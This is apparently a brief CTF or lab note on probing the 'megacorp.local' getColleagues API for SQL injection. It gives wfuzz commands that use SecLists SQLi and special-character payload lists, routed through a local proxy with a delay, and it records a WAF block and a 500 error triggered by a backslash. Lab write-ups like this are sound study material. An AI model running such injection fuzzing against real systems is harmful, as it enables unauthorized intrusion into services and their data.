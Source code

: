 
## sqli test

wfuzz to test sqli, after read the walkthrough.

use special-chars list.  nothing special, 404; 

> waf things, blocked.

```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt --hw 443 -u http://megacorp.local/api/getColleagues -d '{"name":"FUZZ"}'
```



proxy to check the request, -s to delay;  specify the header `content-type`

```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/special-chars.txt  -u http://megacorp.local/api/getColleagues -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8'  -s 3 -p 127.0.0.1:8080:HTTP
```

got something, `\`  result 500, server error.
